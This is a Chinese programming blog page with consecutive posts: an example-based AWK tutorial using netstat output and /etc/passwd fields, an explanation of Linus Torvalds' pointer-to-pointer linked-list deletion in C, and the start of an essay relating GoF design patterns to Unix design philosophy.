有一些网友看了前两天的《[Linux下应该知道的技巧](https://coolshell.cn/articles/8883.html)》希望我能教教他们用awk和sed，所以，出现了这篇文章。我估计这些80后的年轻朋友可能对awk/sed这类上古神器有点陌生了，所以需要我这个老家伙来炒炒冷饭。**况且，AWK是贝尔实验室1977年搞出来的文本出现神器，今年是蛇年，是AWK的本命年，而且年纪和我相仿，所以非常有必要为他写篇文章**。

之所以叫AWK是因为其取了三位创始人 [Alfred Aho](https://en.wikipedia.org/wiki/Alfred_Aho)，[Peter Weinberger](https://en.wikipedia.org/wiki/Peter_J._Weinberger), 和 [Brian Kernighan](https://en.wikipedia.org/wiki/Brian_Kernighan) 的Family Name的首字符。要学AWK，就得提一提AWK的一本相当经典的书《[The AWK Programming Language](http://plan9.bell-labs.com/cm/cs/awkbook/)》，它在[豆瓣上的评分](http://book.douban.com/subject/1876898/)是9.4分！在[亚马逊上居然卖1022.30元](https://www.amazon.cn/mn/detailApp/?asin=020107981X)。

我在这里的教程并不想面面俱到，本文和我之前的[Go语言简介](https://coolshell.cn/articles/8460.html)一样，全是示例，基本无废话。

**我只想达到两个目的：**

**1）你可以在乘坐公交地铁上下班，或是在坐马桶拉大便时读完（保证是一泡大便的工夫）。**

**2）我只想让这篇博文像一个火辣的脱衣舞女挑起你的兴趣，然后还要你自己去下工夫去撸。**

废话少说，我们开始脱吧（注：这里只是topless）。

目录


[起步上台](https://coolshell.cn/articles/9070.html#起步上台)[脱掉外套](https://coolshell.cn/articles/9070.html#脱掉外套)[过滤记录](https://coolshell.cn/articles/9070.html#过滤记录)[内建变量](https://coolshell.cn/articles/9070.html#内建变量)[指定分隔符](https://coolshell.cn/articles/9070.html#指定分隔符)[脱掉衬衫](https://coolshell.cn/articles/9070.html#脱掉衬衫)[字符串匹配](https://coolshell.cn/articles/9070.html#字符串匹配)[统计](https://coolshell.cn/articles/9070.html#统计)[脱掉内衣](https://coolshell.cn/articles/9070.html#脱掉内衣)[awk脚本](https://coolshell.cn/articles/9070.html#awk脚本)[环境变量](https://coolshell.cn/articles/9070.html#环境变量)[几个花活](https://coolshell.cn/articles/9070.html#几个花活)[自己撸吧](https://coolshell.cn/articles/9070.html#自己撸吧)

#### 起步上台

我从netstat命令中提取了如下信息作为用例：


```
$ cat netstat.txt
Proto Recv-Q Send-Q Local-Address          Foreign-Address             State
tcp        0      0 0.0.0.0:3306           0.0.0.0:*                   LISTEN
tcp        0      0 0.0.0.0:80             0.0.0.0:*                   LISTEN
tcp        0      0 127.0.0.1:9000         0.0.0.0:*                   LISTEN
tcp        0      0 coolshell.cn:80        124.205.5.146:18245         TIME_WAIT
tcp        0      0 coolshell.cn:80        61.140.101.185:37538        FIN_WAIT2
tcp        0      0 coolshell.cn:80        110.194.134.189:1032        ESTABLISHED
tcp        0      0 coolshell.cn:80        123.169.124.111:49809       ESTABLISHED
tcp        0      0 coolshell.cn:80        116.234.127.77:11502        FIN_WAIT2
tcp        0      0 coolshell.cn:80        123.169.124.111:49829       ESTABLISHED
tcp        0      0 coolshell.cn:80        183.60.215.36:36970         TIME_WAIT
tcp        0   4166 coolshell.cn:80        61.148.242.38:30901         ESTABLISHED
tcp        0      1 coolshell.cn:80        124.152.181.209:26825       FIN_WAIT1
tcp        0      0 coolshell.cn:80        110.194.134.189:4796        ESTABLISHED
tcp        0      0 coolshell.cn:80        183.60.212.163:51082        TIME_WAIT
tcp        0      1 coolshell.cn:80        208.115.113.92:50601        LAST_ACK
tcp        0      0 coolshell.cn:80        123.169.124.111:49840       ESTABLISHED
tcp        0      0 coolshell.cn:80        117.136.20.85:50025         FIN_WAIT2
tcp        0      0 :::22                  :::*                        LISTEN
```

下面是最简单最常用的awk示例，其输出第1列和第4例，

- 其中单引号中的被大括号括着的就是awk的语句，注意，其只能被单引号包含。
- 其中的$1..$n表示第几例。注：$0表示整个行。

```
$ awk '{print $1, $4}' netstat.txt
Proto Local-Address
tcp 0.0.0.0:3306
tcp 0.0.0.0:80
tcp 127.0.0.1:9000
tcp coolshell.cn:80
tcp coolshell.cn:80
tcp coolshell.cn:80
tcp coolshell.cn:80
tcp coolshell.cn:80
tcp coolshell.cn:80
tcp coolshell.cn:80
tcp coolshell.cn:80
tcp coolshell.cn:80
tcp coolshell.cn:80
tcp coolshell.cn:80
tcp coolshell.cn:80
tcp coolshell.cn:80
tcp coolshell.cn:80
tcp :::22
```

我们再来看看awk的格式化输出，和C语言的printf没什么两样：

```
$ awk '{printf "%-8s %-8s %-8s %-18s %-22s %-15s\n",$1,$2,$3,$4,$5,$6}' netstat.txt
Proto    Recv-Q   Send-Q   Local-Address      Foreign-Address        State
tcp      0        0        0.0.0.0:3306       0.0.0.0:*              LISTEN
tcp      0        0        0.0.0.0:80         0.0.0.0:*              LISTEN
tcp      0        0        127.0.0.1:9000     0.0.0.0:*              LISTEN
tcp      0        0        coolshell.cn:80    124.205.5.146:18245    TIME_WAIT
tcp      0        0        coolshell.cn:80    61.140.101.185:37538   FIN_WAIT2
tcp      0        0        coolshell.cn:80    110.194.134.189:1032   ESTABLISHED
tcp      0        0        coolshell.cn:80    123.169.124.111:49809  ESTABLISHED
tcp      0        0        coolshell.cn:80    116.234.127.77:11502   FIN_WAIT2
tcp      0        0        coolshell.cn:80    123.169.124.111:49829  ESTABLISHED
tcp      0        0        coolshell.cn:80    183.60.215.36:36970    TIME_WAIT
tcp      0        4166     coolshell.cn:80    61.148.242.38:30901    ESTABLISHED
tcp      0        1        coolshell.cn:80    124.152.181.209:26825  FIN_WAIT1
tcp      0        0        coolshell.cn:80    110.194.134.189:4796   ESTABLISHED
tcp      0        0        coolshell.cn:80    183.60.212.163:51082   TIME_WAIT
tcp      0        1        coolshell.cn:80    208.115.113.92:50601   LAST_ACK
tcp      0        0        coolshell.cn:80    123.169.124.111:49840  ESTABLISHED
tcp      0        0        coolshell.cn:80    117.136.20.85:50025    FIN_WAIT2
tcp      0        0        :::22              :::*                   LISTEN
```

#### 脱掉外套

##### 过滤记录

我们再来看看如何过滤记录（下面过滤条件为：第三列的值为0 && 第6列的值为LISTEN）

```
$ awk '$3==0 && $6=="LISTEN" ' netstat.txt
tcp        0      0 0.0.0.0:3306               0.0.0.0:*              LISTEN
tcp        0      0 0.0.0.0:80                 0.0.0.0:*              LISTEN
tcp        0      0 127.0.0.1:9000             0.0.0.0:*              LISTEN
tcp        0      0 :::22                      :::*                   LISTEN
```

其中的“==”为比较运算符。其他比较运算符：!=, >, <, >=, <=

我们来看看各种过滤记录的方式：

```
$ awk ' $3>0 {print $0}' netstat.txt
Proto Recv-Q Send-Q Local-Address          Foreign-Address             State
tcp        0   4166 coolshell.cn:80        61.148.242.38:30901         ESTABLISHED
tcp        0      1 coolshell.cn:80        124.152.181.209:26825       FIN_WAIT1
tcp        0      1 coolshell.cn:80        208.115.113.92:50601        LAST_ACK
```

如果我们需要表头的话，我们可以引入内建变量NR：

```
$ awk '$3==0 && $6=="LISTEN" || NR==1 ' netstat.txt
Proto Recv-Q Send-Q Local-Address          Foreign-Address             State
tcp        0      0 0.0.0.0:3306           0.0.0.0:*                   LISTEN
tcp        0      0 0.0.0.0:80             0.0.0.0:*                   LISTEN
tcp        0      0 127.0.0.1:9000         0.0.0.0:*                   LISTEN
tcp        0      0 :::22                  :::*                        LISTEN
```

再加上格式化输出：

```
$ awk '$3==0 && $6=="LISTEN" || NR==1 {printf "%-20s %-20s %s\n",$4,$5,$6}' netstat.txt
Local-Address        Foreign-Address      State
0.0.0.0:3306         0.0.0.0:*            LISTEN
0.0.0.0:80           0.0.0.0:*            LISTEN
127.0.0.1:9000       0.0.0.0:*            LISTEN
:::22                :::*                 LISTEN
```

##### **内建变量**

说到了内建变量，我们可以来看看awk的一些内建变量：

| $0       | 当前记录（这个变量中存放着整个行的内容）                     |
| -------- | ------------------------------------------------------------ |
| $1~$n    | 当前记录的第n个字段，字段间由FS分隔                          |
| FS       | 输入字段分隔符 默认是空格或Tab                               |
| NF       | 当前记录中的字段个数，就是有多少列                           |
| NR       | 已经读出的记录数，就是行号，从1开始，如果有多个文件话，这个值也是不断累加中。 |
| FNR      | 当前记录数，与NR不同的是，这个值会是各个文件自己的行号       |
| RS       | 输入的记录分隔符， 默认为换行符                              |
| OFS      | 输出字段分隔符， 默认也是空格                                |
| ORS      | 输出的记录分隔符，默认为换行符                               |
| FILENAME | 当前输入文件的名字                                           |

怎么使用呢，比如：我们如果要输出行号：

```
$ awk '$3==0 && $6=="ESTABLISHED" || NR==1 {printf "%02s %s %-20s %-20s %s\n",NR, FNR, $4,$5,$6}' netstat.txt
01 1 Local-Address        Foreign-Address      State
07 7 coolshell.cn:80      110.194.134.189:1032 ESTABLISHED
08 8 coolshell.cn:80      123.169.124.111:49809 ESTABLISHED
10 10 coolshell.cn:80      123.169.124.111:49829 ESTABLISHED
14 14 coolshell.cn:80      110.194.134.189:4796 ESTABLISHED
17 17 coolshell.cn:80      123.169.124.111:49840 ESTABLISHED
```

##### **指定分隔符**

```
$  awk  'BEGIN{FS=":"} {print $1,$3,$6}' /etc/passwd
root 0 /root
bin 1 /bin
daemon 2 /sbin
adm 3 /var/adm
lp 4 /var/spool/lpd
sync 5 /sbin
shutdown 6 /sbin
halt 7 /sbin
```

上面的命令也等价于：（-F的意思就是指定分隔符）

```
$ awk -F: '{print $1,$3,$6}' /etc/passwd
```

注：如果你要指定多个分隔符，你可以这样来：

```
awk -F '[;:]'
```

再来看一个以\t作为分隔符输出的例子（下面使用了/etc/passwd文件，这个文件是以:分隔的）：

```
$ awk  -F: '{print $1,$3,$6}' OFS="\t" /etc/passwd
root    0       /root
bin     1       /bin
daemon  2       /sbin
adm     3       /var/adm
lp      4       /var/spool/lpd
sync    5       /sbin
```

#### 脱掉衬衫

##### 字符串匹配

我们再来看几个字符串匹配的示例：

```
$ awk '$6 ~ /FIN/ || NR==1 {print NR,$4,$5,$6}' OFS="\t" netstat.txt
1       Local-Address   Foreign-Address State
6       coolshell.cn:80 61.140.101.185:37538    FIN_WAIT2
9       coolshell.cn:80 116.234.127.77:11502    FIN_WAIT2
13      coolshell.cn:80 124.152.181.209:26825   FIN_WAIT1
18      coolshell.cn:80 117.136.20.85:50025     FIN_WAIT2

$ $ awk '$6 ~ /WAIT/ || NR==1 {print NR,$4,$5,$6}' OFS="\t" netstat.txt
1       Local-Address   Foreign-Address State
5       coolshell.cn:80 124.205.5.146:18245     TIME_WAIT
6       coolshell.cn:80 61.140.101.185:37538    FIN_WAIT2
9       coolshell.cn:80 116.234.127.77:11502    FIN_WAIT2
11      coolshell.cn:80 183.60.215.36:36970     TIME_WAIT
13      coolshell.cn:80 124.152.181.209:26825   FIN_WAIT1
15      coolshell.cn:80 183.60.212.163:51082    TIME_WAIT
18      coolshell.cn:80 117.136.20.85:50025     FIN_WAIT2
```

上面的第一个示例匹配FIN状态， 第二个示例匹配WAIT字样的状态。其实 ~ 表示模式开始。/ /中是模式。这就是一个正则表达式的匹配。

其实awk可以像grep一样的去匹配第一行，就像这样：

```
$ awk '/LISTEN/' netstat.txt
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:9000          0.0.0.0:*               LISTEN
tcp        0      0 :::22                   :::*                    LISTEN
```

我们可以使用 “/FIN|TIME/” 来匹配 FIN 或者 TIME :

```
$ awk '$6 ~ /FIN|TIME/ || NR==1 {print NR,$4,$5,$6}' OFS="\t" netstat.txt
1       Local-Address   Foreign-Address State
5       coolshell.cn:80 124.205.5.146:18245     TIME_WAIT
6       coolshell.cn:80 61.140.101.185:37538    FIN_WAIT2
9       coolshell.cn:80 116.234.127.77:11502    FIN_WAIT2
11      coolshell.cn:80 183.60.215.36:36970     TIME_WAIT
13      coolshell.cn:80 124.152.181.209:26825   FIN_WAIT1
15      coolshell.cn:80 183.60.212.163:51082    TIME_WAIT
18      coolshell.cn:80 117.136.20.85:50025     FIN_WAIT2
```

再来看看模式取反的例子：

```
$ awk '$6 !~ /WAIT/ || NR==1 {print NR,$4,$5,$6}' OFS="\t" netstat.txt
1       Local-Address   Foreign-Address State
2       0.0.0.0:3306    0.0.0.0:*       LISTEN
3       0.0.0.0:80      0.0.0.0:*       LISTEN
4       127.0.0.1:9000  0.0.0.0:*       LISTEN
7       coolshell.cn:80 110.194.134.189:1032    ESTABLISHED
8       coolshell.cn:80 123.169.124.111:49809   ESTABLISHED
10      coolshell.cn:80 123.169.124.111:49829   ESTABLISHED
12      coolshell.cn:80 61.148.242.38:30901     ESTABLISHED
14      coolshell.cn:80 110.194.134.189:4796    ESTABLISHED
16      coolshell.cn:80 208.115.113.92:50601    LAST_ACK
17      coolshell.cn:80 123.169.124.111:49840   ESTABLISHED
19      :::22   :::*    LISTEN
```

或是：

```
awk '!/WAIT/' netstat.txt
```

**折分文件**

awk拆分文件很简单，使用重定向就好了。下面这个例子，是按第6例分隔文件，相当的简单（其中的NR!=1表示不处理表头）。

```
$ awk 'NR!=1{print > $6}' netstat.txt

$ ls
ESTABLISHED  FIN_WAIT1  FIN_WAIT2  LAST_ACK  LISTEN  netstat.txt  TIME_WAIT

$ cat ESTABLISHED
tcp        0      0 coolshell.cn:80        110.194.134.189:1032        ESTABLISHED
tcp        0      0 coolshell.cn:80        123.169.124.111:49809       ESTABLISHED
tcp        0      0 coolshell.cn:80        123.169.124.111:49829       ESTABLISHED
tcp        0   4166 coolshell.cn:80        61.148.242.38:30901         ESTABLISHED
tcp        0      0 coolshell.cn:80        110.194.134.189:4796        ESTABLISHED
tcp        0      0 coolshell.cn:80        123.169.124.111:49840       ESTABLISHED

$ cat FIN_WAIT1
tcp        0      1 coolshell.cn:80        124.152.181.209:26825       FIN_WAIT1

$ cat FIN_WAIT2
tcp        0      0 coolshell.cn:80        61.140.101.185:37538        FIN_WAIT2
tcp        0      0 coolshell.cn:80        116.234.127.77:11502        FIN_WAIT2
tcp        0      0 coolshell.cn:80        117.136.20.85:50025         FIN_WAIT2

$ cat LAST_ACK
tcp        0      1 coolshell.cn:80        208.115.113.92:50601        LAST_ACK

$ cat LISTEN
tcp        0      0 0.0.0.0:3306           0.0.0.0:*                   LISTEN
tcp        0      0 0.0.0.0:80             0.0.0.0:*                   LISTEN
tcp        0      0 127.0.0.1:9000         0.0.0.0:*                   LISTEN
tcp        0      0 :::22                  :::*                        LISTEN

$ cat TIME_WAIT
tcp        0      0 coolshell.cn:80        124.205.5.146:18245         TIME_WAIT
tcp        0      0 coolshell.cn:80        183.60.215.36:36970         TIME_WAIT
tcp        0      0 coolshell.cn:80        183.60.212.163:51082        TIME_WAIT
```

你也可以把指定的列输出到文件：

```
awk 'NR!=1{print $4,$5 > $6}' netstat.txt
```

再复杂一点：（注意其中的if-else-if语句，可见awk其实是个脚本解释器）

```
$ awk 'NR!=1{if($6 ~ /TIME|ESTABLISHED/) print > "1.txt";
else if($6 ~ /LISTEN/) print > "2.txt";
else print > "3.txt" }' netstat.txt

$ ls ?.txt
1.txt  2.txt  3.txt

$ cat 1.txt
tcp        0      0 coolshell.cn:80        124.205.5.146:18245         TIME_WAIT
tcp        0      0 coolshell.cn:80        110.194.134.189:1032        ESTABLISHED
tcp        0      0 coolshell.cn:80        123.169.124.111:49809       ESTABLISHED
tcp        0      0 coolshell.cn:80        123.169.124.111:49829       ESTABLISHED
tcp        0      0 coolshell.cn:80        183.60.215.36:36970         TIME_WAIT
tcp        0   4166 coolshell.cn:80        61.148.242.38:30901         ESTABLISHED
tcp        0      0 coolshell.cn:80        110.194.134.189:4796        ESTABLISHED
tcp        0      0 coolshell.cn:80        183.60.212.163:51082        TIME_WAIT
tcp        0      0 coolshell.cn:80        123.169.124.111:49840       ESTABLISHED

$ cat 2.txt
tcp        0      0 0.0.0.0:3306           0.0.0.0:*                   LISTEN
tcp        0      0 0.0.0.0:80             0.0.0.0:*                   LISTEN
tcp        0      0 127.0.0.1:9000         0.0.0.0:*                   LISTEN
tcp        0      0 :::22                  :::*                        LISTEN

$ cat 3.txt
tcp        0      0 coolshell.cn:80        61.140.101.185:37538        FIN_WAIT2
tcp        0      0 coolshell.cn:80        116.234.127.77:11502        FIN_WAIT2
tcp        0      1 coolshell.cn:80        124.152.181.209:26825       FIN_WAIT1
tcp        0      1 coolshell.cn:80        208.115.113.92:50601        LAST_ACK
tcp        0      0 coolshell.cn:80        117.136.20.85:50025         FIN_WAIT2
```

##### 统计

下面的命令计算所有的C文件，CPP文件和H文件的文件大小总和。

```
$ ls -l  *.cpp *.c *.h | awk '{sum+=$5} END {print sum}'
2511401
```

我们再来看一个统计各个connection状态的用法：（我们可以看到一些编程的影子了，大家都是程序员我就不解释了。注意其中的数组的用法）

```
$ awk 'NR!=1{a[$6]++;} END {for (i in a) print i ", " a[i];}' netstat.txt
TIME_WAIT, 3
FIN_WAIT1, 1
ESTABLISHED, 6
FIN_WAIT2, 3
LAST_ACK, 1
LISTEN, 4
```

再来看看统计每个用户的进程的占了多少内存（注：sum的RSS那一列）

```
$ ps aux | awk 'NR!=1{a[$1]+=$6;} END { for(i in a) print i ", " a[i]"KB";}'
dbus, 540KB
mysql, 99928KB
www, 3264924KB
root, 63644KB
hchen, 6020KB
```

#### 脱掉内衣

##### awk脚本

在上面我们可以看到一个END关键字。END的意思是“处理完所有的行的标识”，即然说到了END就有必要介绍一下BEGIN，这两个关键字意味着执行前和执行后的意思，语法如下：

- BEGIN{ 这里面放的是执行前的语句 }
- END {这里面放的是处理完所有的行后要执行的语句 }
- {这里面放的是处理每一行时要执行的语句}

为了说清楚这个事，我们来看看下面的示例：

假设有这么一个文件（学生成绩表）：

```
$ cat score.txt
Marry   2143 78 84 77
Jack    2321 66 78 45
Tom     2122 48 77 71
Mike    2537 87 97 95
Bob     2415 40 57 62
```

我们的awk脚本如下（我没有写有命令行上是因为命令行上不易读，另外也在介绍另一种用法）：

```
$ cat cal.awk
#!/bin/awk -f
#运行前
BEGIN {
    math = 0
    english = 0
    computer = 0

    printf "NAME    NO.   MATH  ENGLISH  COMPUTER   TOTAL\n"
    printf "---------------------------------------------\n"
}
#运行中
{
    math+=$3
    english+=$4
    computer+=$5
    printf "%-6s %-6s %4d %8d %8d %8d\n", $1, $2, $3,$4,$5, $3+$4+$5
}
#运行后
END {
    printf "---------------------------------------------\n"
    printf "  TOTAL:%10d %8d %8d \n", math, english, computer
    printf "AVERAGE:%10.2f %8.2f %8.2f\n", math/NR, english/NR, computer/NR
}
```

我们来看一下执行结果：（也可以这样运行 ./cal.awk score.txt）

```
$ awk -f cal.awk score.txt
NAME    NO.   MATH  ENGLISH  COMPUTER   TOTAL
---------------------------------------------
Marry  2143     78       84       77      239
Jack   2321     66       78       45      189
Tom    2122     48       77       71      196
Mike   2537     87       97       95      279
Bob    2415     40       57       62      159
---------------------------------------------
  TOTAL:       319      393      350
AVERAGE:     63.80    78.60    70.00
```

##### 环境变量

即然说到了脚本，我们来看看怎么和环境变量交互：（使用-v参数和ENVIRON，使用ENVIRON的环境变量需要export）

```
$ x=5

$ y=10
$ export y

$ echo $x $y
5 10

$ awk -v val=$x '{print $1, $2, $3, $4+val, $5+ENVIRON["y"]}' OFS="\t" score.txt
Marry   2143    78      89      87
Jack    2321    66      83      55
Tom     2122    48      82      81
Mike    2537    87      102     105
Bob     2415    40      62      72
```

#### 几个花活

最后，我们再来看几个小例子：

```
#从file文件中找出长度大于80的行
awk 'length>80' file

#按连接数查看客户端IP
netstat -ntu | awk '{print $5}' | cut -d: -f1 | sort | uniq -c | sort -nr

#打印99乘法表
seq 9 | sed 'H;g' | awk -v RS='' '{for(i=1;i<=NF;i++)printf("%dx%d=%d%s", i, NR, i*NR, i==NR?"\n":"\t")}' 
```

#### 自己撸吧

关于其中的一些知识点可以参看[gawk的手册](http://www.gnu.org/software/gawk/manual/gawk.html)：

- 内建变量，参看：http://www.gnu.org/software/gawk/manual/gawk.html#Built_002din-Variables
- 流控方面，参看：http://www.gnu.org/software/gawk/manual/gawk.html#Statements
- 内建函数，参看：http://www.gnu.org/software/gawk/manual/gawk.html#Built_002din
- 正则表达式，参看：http://www.gnu.org/software/gawk/manual/gawk.html#Regexp

（全文完）

# LINUS：利用二级指针删除单向链表

#####  [2013年02月04日 ](https://coolshell.cn/articles/8990.html) [Leo](https://coolshell.cn/articles/author/full_of_bull) 评论 [194 条评论](https://coolshell.cn/articles/8990.html#comments) 114,084 人阅读

**感谢网友full_of_bull投递此文**（注：此文最初发表在这个[这里](http://www.oldlinux.org/oldlinux/viewthread.php?tid=14575&extra=page%3D1)，我对原文后半段修改了许多，并加入了插图）

Linus大婶在[slashdot](http://meta.slashdot.org/story/12/10/11/0030249/linus-torvalds-answers-your-questions)上回答一些编程爱好者的提问，其中一个人问他什么样的代码是他所喜好的，大婶表述了自己一些观点之后，举了一个指针的例子，解释了什么才是**core low-level coding**。

下面是Linus的教学原文及翻译——

“At the opposite end of the spectrum, I actually wish more people understood the really core low-level kind of coding. Not big, complex stuff like the lockless name lookup, but simply good use of pointers-to-pointers etc. For example, I’ve seen too many people who delete a singly-linked list entry by keeping track of the “prev” entry, and then to delete the entry, doing something like。（在这段话的最后，我实际上希望更多的人了解什么是真正的核心底层代码。这并不像无锁文件名查询（注：可能是git源码里的设计）那样庞大、复杂，只是仅仅像诸如使用二级指针那样简单的技术。例如，我见过很多人在删除一个单项链表的时候，维护了一个”prev”表项指针，然后删除当前表项，就像这样）”

**if** (prev)

​    prev->next = entry->next;

**else**

​    list_head = entry->next;

and whenever I see code like that, I just go “This person doesn’t understand pointers”. And it’s sadly quite common.（当我看到这样的代码时，我就会想“这个人不了解指针”。令人难过的是这太常见了。）


People who understand pointers just use a “pointer to the entry pointer”, and initialize that with the address of the list_head. And then as they traverse the list, they can remove the entry without using any conditionals, by just doing a “*pp = entry->next”. （了解指针的人会使用链表头的地址来初始化一个“指向节点指针的指针”。当遍历链表的时候，可以不用任何条件判断（注：指prev是否为链表头）就能移除某个节点，只要写)


*pp = entry->next


So there’s lots of pride in doing the small details right. It may not be big and important code, but I do like seeing code where people really thought about the details, and clearly also were thinking about the compiler being able to generate efficient code (rather than hoping that the compiler is so smart that it can make efficient code *despite* the state of the original source code). （纠正细节是令人自豪的事。也许这段代码并非庞大和重要，**但我喜欢看那些注重代码细节的人写的代码，也就是清楚地了解如何才能编译出有效代码**（而不是寄望于聪明的编译器来产生有效代码，即使是那些原始的汇编代码））。

Linus举了一个单向链表的例子，但给出的代码太短了，一般的人很难搞明白这两个代码后面的含义。正好，有个编程爱好者阅读了这段话，并给出了一个[比较完整的代码](http://wordaligned.org/articles/two-star-programming)。他的话我就不翻译了，下面给出代码说明。

如果我们需要写一个remove_if(link*, rm_cond_func*)的函数，也就是传入一个单向链表，和一个自定义的是否删除的函数，然后返回处理后的链接。

这个代码不难，基本上所有的教科书都会提供下面的代码示例，而这种写法也是大公司的面试题**标准**模板：

**typedef** **struct** node

{

​    **struct** node * next;

​    ....

} node;

**typedef** **bool** (* remove_fn)(node const * v);

// Remove all nodes from the supplied list for which the

// supplied remove function returns true.

// Returns the new head of the list.

node * remove_if(node * head, remove_fn rm)

{

​    **for** (node * prev = **NULL**, * curr = head; curr != **NULL**; )

​    {

​        node * const next = curr->next;

​        **if** (rm(curr))

​        {

​            **if** (prev)

​                prev->next = next;

​            **else**

​                head = next;

​            free(curr);

​        }

​        **else**

​            prev = curr;

​        curr = next;

​    }

​    **return** head;

}

这里remove_fn由调用查提供的一个是否删除当前实体结点的函数指针，其会判断删除条件是否成立。这段代码维护了两个节点指针prev和curr，**标准的教科书写法——删除当前结点时，需要一个previous的指针，并且还要这里还需要做一个边界条件的判断——curr是否为链表头**。于是，要删除一个节点（不是表头），只要将前一个节点的next指向当前节点的next指向的对象，即下一个节点（即：prev->next = curr->next），然后释放当前节点。

但在Linus看来，这是不懂指针的人的做法。那么，什么是core low-level coding呢？那就是**有效地利用二级指针，将其作为管理和操作链表的首要选项。**代码如下：

**void** remove_if(node ** head, remove_fn rm)

{

​    **for** (node** curr = head; *curr; )

​    {

​        node * entry = *curr;

​        **if** (rm(entry))

​        {

​            *curr = entry->next;

​            free(entry);

​        }

​        **else**

​            curr = &entry->next;

​    }

}

同上一段代码有何改进呢？我们看到：**不需要prev指针了，也不需要再去判断是否为链表头了，但是，curr变成了一个指向指针的指针**。这正是这段程序的精妙之处。（注意，我所highlight的那三行代码）

让我们来人肉跑一下这个代码，对于——

- **删除节点是表头**的情况，输入参数中传入head的二级指针，在for循环里将其初始化curr，然后entry就是*head(*curr)，我们马上删除它，那么第8行就等效于*head = (*head)->next，就是删除表头的实现。

- **删除节点不是表头**的情况，对于上面的代码，我们可以看到——

**1）\**（第12行）\**如果不删除当前结点 —— curr保存的是当前结点next指针的地址**。

**2）（第5行） entry 保存了 \*curr \**——\** 这意味着在下一次循环：entry就是prev->next指针所指向的内存。**

**3）（第8行）删除结点：\*curr = entry->next; —— 于是：prev->next 指向了 entry -> next;**

是不是很巧妙？我们可以只用一个二级指针来操作链表，对所有节点都一样。

如果你对上面的代码和描述理解上有困难的话，你可以看看下图的示意：


（全文完）

# 从面向对象的设计模式看软件设计

#####  [2013年02月01日 ](https://coolshell.cn/articles/8961.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [92 条评论](https://coolshell.cn/articles/8961.html#comments) 91,194 人阅读

前些天发了一篇《[如此理解面向对象编程](https://coolshell.cn/articles/8745.html)》的文章，然后引起了大家的热议。然后我在[微博上说](http://weibo.com/1401880315/z9wWHrrVR)了一句——“**那23个经典的设计模式和OO半毛钱关系没有，只不过人家用OO来实现罢了……OO的设计模式思想和Unix的设计思想基本没什么差别**”，结果引来了一点点争议。所以，我写下这篇文章把我的观点说明一下。我希望这样可以让大家更容易地理解什么是设计模式。**我顺便帮OO和 Unix/Linux搞搞基**。

目录


[什么是模式](https://coolshell.cn/articles/8961.html#什么是模式)[GoF的23个设计模式](https://coolshell.cn/articles/8961.html#GoF的23个设计模式)[后记](https://coolshell.cn/articles/8961.html#后记)[餐后甜点](https://coolshell.cn/articles/8961.html#餐后甜点)[再送一个果盘](https://coolshell.cn/articles/8961.html#再送一个果盘)

#### 什么是模式

在正式说明GoF的那23个经典的设计模式其实和OO关系不大并和Unix的设计思想很相似的这个观点之前，让我先来说说什么是模式？设计模式的英文是Design Pattern，模式是Pattern的汉译。所谓Pattern就是一种规则，或是一种模型，或是一种习惯。Pattern这个东西到处都是，并不只有技术圏子里才有。比如：

- 文章有文章的Pattern。如新闻有新闻的Pattern（第一段话简述了整个新闻），诗歌总是抒情的，论文总是死板的，讲稿总是高谈的，漫画总是幽默的，……
- 小说有小说的Pattern。比如，
  - 武侠小说必然要整个武林大会，整几个NB的武功和大师，分个正派和反派，还有一个或数个惊天阴谋，坏人总是要在一开始占尽优势，好人总是要力挽狂澜……
  - 言情小说总是要有第三者，总是要有负心人，里面的女子总是要哭得死去活来，但又痴心不改，……
-  新闻联播的模式是：头10分钟领导很忙，中间10分钟人民很幸福，后10分钟国外很乱。中国政府官方宣传稿也模式也很明显，各种赞美，口号，胜利，总是要坚持个什么，团结个什么，迈向个什么，某某精神，某某思想，群众情绪稳定，不明真相，等等……
- 春节的模式是，回家，吃饺子，放个鞭炮，给压岁钱，同学聚会…… 同学聚会的模式基本上都是在饭桌上回忆一下校园时光，比较一下各自的当前处境，调戏一下女同学……
- …… ……

这就是Pattern，只要你细心观察，你会发现这世间有很多很多的Pattern。


#### GoF的23个设计模式

《[设计模式](http://product.china-pub.com/25961)》这本书中，GoF这四个人总结了23个经典的面向对象的设计模式，某中有5个创建模式，7个结构模式，11个行为模式。**很多人都会觉得这是面向对象的设计模式，很多人也觉得非面向对象不能用这些模式。我觉得这是一种教条主义。**就像《[那些流行的编程方法](https://coolshell.cn/articles/2058.html)》中的“设计模式驱动型编程”一样，就像《[如此理解面向对象](https://coolshell.cn/articles/8745.html)》一样的那么的滑稽。

好了，回到我的论点——“**GoF的这23个设计模式和OO关系不大，并且和Unix的设计思想基本一致，只不过GoF用OO实现了它们**”，就像我上面说过的那些生活中的Pattern一样，只要你仔细思考，你会发现这23个设计模式在我们的生活和社会中也能有他们的身影。而且也一样可以用OO的方式实现之。

让我们来看看这23个经典的设计模式中的几个常用的模式：

**Factory 模式**，这个模式可能是是个人都知道的模式。这个模式在现实社会中就像各种工厂一样，工厂跨界的不多，基本上都是在生产同一类的产品，有的生产汽车，有的生产电视，有的生产衣服，有的生产卫生纸……基本上来说，一个生产线上只有做同一类的东西。这和Factory模式很相似。编程中，像内存池，线程池，连接池等池化技术都是这个模式，当然，Factory给你的一个对象，而不单单只是资源，factory创建出来的对象都有同样的接口可以被多态调用。**这其实和Unix把所有的硬件都factory成文件一样，并提供了read/write等文件操作来让你操作任意设备的I/O**。

**Abstract Factor**y：抽象工厂这个模式是创建一组有同一主题的不同的类。这个模式在现实社会当中也有很多例子，比如：

- 移动公司的合约机计划，88套餐（通话100分钟，短信100条，彩信，20条，上网200M），128套餐（通话200分钟，短信150条，彩信50条，上网500M）……

- 家里的装修，总是要有厨卫，有门，有灯，有沙发，有茶几，有床，有衣柜，有电视，有冰箱，有洗衣机……，这些都是必需的，只是每个家庭里的具体装修不一样。

- Diablo游戏中的Normal，Hard，Nightmare，Hell模式，这些模式的怪和场景和故事情况都差不多，就是每个场景的怪物和装备的属性不一样。或是WarCraft中的地图就是一个Abstract Factory模式(注：Warcraft的地图什么都能干)。这和学校中的小学，初中，高中，大学差不多，都是一样的学习环境，一样的教学方式，一样的教室，都要期中考和期末考，都有班长和科代表，就是学的东西的难度不一样，但基本上都是语文，英语，数，理，化，还有永远都有的政治课。学校就是一个抽象工厂。

